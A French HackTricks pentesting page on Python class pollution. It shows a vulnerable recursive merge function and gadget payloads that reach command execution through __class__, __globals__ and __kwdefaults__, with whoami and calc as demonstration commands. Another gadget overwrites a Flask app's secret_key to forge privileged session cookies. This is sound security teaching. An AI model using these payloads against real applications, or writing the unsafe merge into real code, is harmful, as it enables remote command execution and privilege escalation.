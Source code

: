# Pollution de Classe (Pollution de Prototype de Python)

{{#include ../../banners/hacktricks-training.md}}

## Exemple de Base

Vérifiez comment il est possible de polluer des classes d'objets avec des chaînes :
```python
class Company: pass
class Developer(Company): pass
class Entity(Developer): pass

c = Company()
d = Developer()
e = Entity()

print(c) #<__main__.Company object at 0x1043a72b0>
print(d) #<__main__.Developer object at 0x1041d2b80>
print(e) #<__main__.Entity object at 0x1041d2730>

e.__class__.__qualname__ = 'Polluted_Entity'

print(e) #<__main__.Polluted_Entity object at 0x1041d2730>

e.__class__.__base__.__qualname__ = 'Polluted_Developer'
e.__class__.__base__.__base__.__qualname__ = 'Polluted_Company'

print(d) #<__main__.Polluted_Developer object at 0x1041d2b80>
print(c) #<__main__.Polluted_Company object at 0x1043a72b0>
```
## Exemple de vulnérabilité de base
```python
# Initial state
class Employee: pass
emp = Employee()
print(vars(emp)) #{}

# Vulenrable function
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)


USER_INPUT = {
"name":"Ahemd",
"age": 23,
"manager":{
"name":"Sarah"
}
}

merge(USER_INPUT, emp)
print(vars(emp)) #{'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
```
## Exemples de gadgets

<details>

<summary>Création d'une valeur par défaut de propriété de classe pour RCE (subprocess)</summary>
```python
from os import popen
class Employee: pass # Creating an empty class
class HR(Employee): pass # Class inherits from Employee class
class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class
def execute_command(self):
command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

USER_INPUT = {
"__class__":{
"__base__":{
"__base__":{
"custom_command": "whoami"
}
}
}
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
#> [!] Executing: "echo Hello there", output: "Hello there"

# Create default value for Employee.custom_command
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
#> [!] Executing: "whoami", output: "abdulrah33m"
```
</details>

<details>

<summary>Polluer d'autres classes et des variables globales via <code>globals</code></summary>
```python
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class User:
def __init__(self):
pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```
</details>

<details>

<summary>Exécution arbitraire de sous-processus</summary>
```python
import subprocess, json

class Employee:
def __init__(self):
pass

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

# Overwrite env var "COMSPEC" to execute a calc
USER_INPUT = json.loads('{"__init__":{"__globals__":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(USER_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```
</details>

<details>

<summary>Écrasement de <strong><code>__kwdefaults__</code></strong></summary>

**`__kwdefaults__`** est un attribut spécial de toutes les fonctions, basé sur la [documentation](https://docs.python.org/3/library/inspect.html) de Python, c'est un “mapping de toutes les valeurs par défaut pour les paramètres **uniquement par mot-clé**”. Polluer cet attribut nous permet de contrôler les valeurs par défaut des paramètres uniquement par mot-clé d'une fonction, ce sont les paramètres de la fonction qui viennent après \* ou \*args.
```python
from os import system
import json

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class Employee:
def __init__(self):
pass

def execute(*, command='whoami'):
print(f'Executing {command}')
system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
```
</details>

<details>

<summary>Écrasement du secret Flask à travers les fichiers</summary>

Donc, si vous pouvez faire une pollution de classe sur un objet défini dans le fichier python principal du web mais **dont la classe est définie dans un fichier différent** de celui principal. Parce que pour accéder à \_\_globals\_\_ dans les charges utiles précédentes, vous devez accéder à la classe de l'objet ou aux méthodes de la classe, vous pourrez **accéder aux globals dans ce fichier, mais pas dans le principal**. \
Par conséquent, vous **ne pourrez pas accéder à l'objet global de l'application Flask** qui a défini la **clé secrète** dans la page principale :
```python
app = Flask(__name__, template_folder='templates')
app.secret_key = '(:secret:)'
```
Dans ce scénario, vous avez besoin d'un gadget pour parcourir les fichiers afin d'accéder à l'objet global `app.secret_key` pour changer la clé secrète de Flask et pouvoir [**escalader les privilèges** en connaissant cette clé](../../network-services-pentesting/pentesting-web/flask.md#flask-unsign).

Une charge utile comme celle-ci [de ce rapport](https://ctftime.org/writeup/36082) :
```python
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
Utilisez ce payload pour **changer `app.secret_key`** (le nom dans votre application peut être différent) afin de pouvoir signer de nouveaux cookies flask avec plus de privilèges.

</details>

Vérifiez également la page suivante pour plus de gadgets en lecture seule :

{{#ref}}
python-internal-read-gadgets.md
{{#endref}}

## Références

- [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

{{#include ../../banners/hacktricks-training.md}}
